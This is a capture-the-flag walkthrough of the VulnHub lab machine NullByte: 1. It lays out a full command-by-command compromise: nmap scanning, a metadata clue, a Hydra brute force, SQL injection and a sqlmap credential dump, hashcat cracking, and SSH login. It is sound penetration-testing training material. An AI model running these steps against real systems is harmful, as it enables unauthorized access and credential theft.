# NullByte: 1

- **Machine:** NullByte: 1
- **Download:** https://www.vulnhub.com/entry/nullbyte-1,126/



---

# Setup

1. Extract the downloaded ZIP archive.
2. Import the OVF file into VirtualBox.
3. Click **Finish**.
4. Start the virtual machine.

---

# Network Scanning

## Discover the Target IP

```bash
nmap -sn 192.168.2.0/24
```



---

## Full Nmap Scan

Run a complete scan to identify all open ports, services, OS information, and default NSE scripts.

```bash
nmap -v -Pn -sT -sV -sC -A -O -p- 192.168.2.169
```


---

## Optional Enumeration

```bash
nmap -v -p- 192.168.2.169
```

```bash
nmap -sC -sV -A 192.168.2.169
```

---

## HTTP Enumeration

Use the HTTP enumeration NSE script.

```bash
nmap -v -p 80 -sT -sV -A --script=http-enum.nse 192.168.2.169
```


---

# Web Enumeration

Visit the web application.

```text
http://192.168.2.169
```

Inspect the page source.


---

## Image Metadata Analysis

Download the image.

```bash
wget http://192.168.2.169/main.gif
```

Extract metadata.

```bash
exiftool main.gif
```


A hidden comment is present.

```text
Comment : P-): kzMb5nVYJw
```

Visit the discovered directory.

```text
http://192.168.2.169/kzMb5nVYJw/
```

---

## Directory Enumeration

Brute-force directories.

```bash
gobuster dir -u http://192.168.2.169/kzMb5nVYJw/ -w /usr/share/wordlists/dirb/common.txt
```



---

## Brute Force the Secret Key

Use Hydra to brute-force the key.

```bash
hydra 192.168.2.169 http-form-post "/kzMb5nVYJw/index.php:key=^PASS^:invalid key" -l "" -P /usr/share/dict/words -t 10 -w 30
```



Recovered key:

```text
elite
```

Enter the key at:

```text
http://192.168.2.169/kzMb5nVYJw/index.php
```



Press **Enter**.

A search form appears.


Enter any value.


The application redirects to:

```text
http://192.168.2.169/kzMb5nVYJw/420search.php?usrtosearch=abc
```


---

# SQL Injection

Test the parameter for SQL injection.

```text
http://192.168.2.169/kzMb5nVYJw/420search.php?usrtosearch="
```



The application is vulnerable to SQL Injection.

---

# Database Enumeration

Enumerate available databases.

```bash
sqlmap -u "http://192.168.2.169/kzMb5nVYJw/420search.php?usrtosearch=abc" --dbs
```



---

## Enumerate Tables

```bash
sqlmap -u "http://192.168.2.169/kzMb5nVYJw/420search.php?usrtosearch=abc" -D seth --tables
```


---

## Enumerate Columns

```bash
sqlmap -u "http://192.168.2.169/kzMb5nVYJw/420search.php?usrtosearch=abc" -D seth -T users --columns
```


---

## Dump User Data

Dump selected columns.

```bash
sqlmap -u "http://192.168.2.169/kzMb5nVYJw/420search.php?usrtosearch=abc" -D seth -T users -C position,user,id,pass --dump
```



Or dump the complete table.

```bash
sqlmap -u "http://192.168.2.169/kzMb5nVYJw/420search.php?usrtosearch=abc" -D seth -T users --dump
```



Recovered password value:

```text
YzZkNmJkN2ViZjgwNmY0M2M3NmFjYzM2ODE3MDNiODE=
```

---

# Password Cracking

Decode the Base64 value.

```bash
echo 'YzZkNmJkN2ViZjgwNmY0M2M3NmFjYzM2ODE3MDNiODE=' | base64 -d
```



Decoded value:

```text
c6d6bd7ebf806f43c76acc3681703b81
```

Identify the hash.

```bash
hash-identifier c6d6bd7ebf806f43c76acc3681703b81
```


Save the hash.

```bash
echo "c6d6bd7ebf806f43c76acc3681703b81" > hash.txt
```

Crack it with Hashcat.

```bash
hashcat -m 0 hash.txt /opt/rockyou.txt
```



Recovered credentials:

```text
Username : ramses
Password : omega
```

---

# SSH Access

The SSH service is running on port **777**.

Login using the recovered credentials.

```bash
ssh -p 777 ramses@192.168.2.169
```



Successfully obtained an interactive SSH shell.

---

# Key Learning

- Inspect image metadata using **ExifTool**.
- Hidden comments may reveal secret directories.
- Brute-force authentication keys with **Hydra**.
- Identify SQL Injection and automate enumeration with **SQLMap**.
- Decode Base64-encoded values before identifying the hash.
- Crack password hashes using **Hashcat**.
- Reuse recovered credentials to gain SSH access.

---

# Summary

The compromise began by inspecting an image's metadata, which revealed a hidden directory. After brute-forcing a secret access key, a search feature vulnerable to SQL Injection was discovered. SQLMap was used to enumerate the database and dump user credentials. The stored password was Base64 encoded and contained an MD5 hash, which was cracked using Hashcat. Finally, the recovered credentials were successfully used to authenticate to the SSH service running on port **777**, providing an interactive shell on the target machine.